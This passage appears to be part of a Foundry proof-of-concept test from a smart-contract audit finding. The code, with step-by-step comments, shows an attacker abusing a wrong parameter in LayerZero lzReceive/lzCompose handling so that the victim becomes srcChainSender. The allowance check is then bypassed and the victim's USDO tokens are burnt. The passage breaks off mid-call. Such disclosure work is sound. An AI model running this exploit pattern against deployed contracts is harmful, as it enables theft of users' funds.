 ```solidity
            refundAddress: makeAddr("attacker")
        });

        vm.startPrank(makeAddr("attacker"));
        aUsdo.sendPacket(lzSendParamAToB, toeComposeMsg);

        // EXECUTE ATTACK

        // Execute first lzReceive() --> receive message in chain B
    
        vm.startPrank(endpoints[bEid]);
        UsdoReceiver(address(bUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(aUsdo)), srcEid: aEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                sendParamAToB.to,
                 index,  // amount (use an initialized 0 variable due to Solidity restrictions)
                 OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                toeComposeMsg
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Compose message is sent in `lzReceive()`, we need to trigger `lzCompose()`.
        // This triggers a message back to chain A, in which the srcChainSender will be set as the victim inside the
        // composed message due to the wrong parameter passed
        UsdoReceiver(address(bUsdo)).lzCompose(
            address(bUsdo), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked(OFTMsgCodec.addressToBytes32(address(aUsdo)), toeComposeMsg), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        vm.startPrank(endpoints[aEid]);

        // Chain A: message is received, internally a compose flow is retriggered.
        UsdoReceiver(address(aUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(bUsdo)), srcEid: bEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                sendParamAToB.to,
                 index,  // amount
                 OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                toeComposeMsgVictim
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Compose message is sent in `lzReceive()`, we need to trigger `lzCompose()`.
        // At this point, the srcChainSender is the victim (as set in the previous lzCompose) because of the wrong parameter (the `expectEmit` verifies it).
        // The `owner` specified for the remote transfer is also the victim, so the allowance check is bypassed because `owner` == `srcChainSender`.
        // This allows the tokens to be burnt, and a final message is triggered to the destination chain
        UsdoReceiver(address(aUsdo)).lzCompose(
```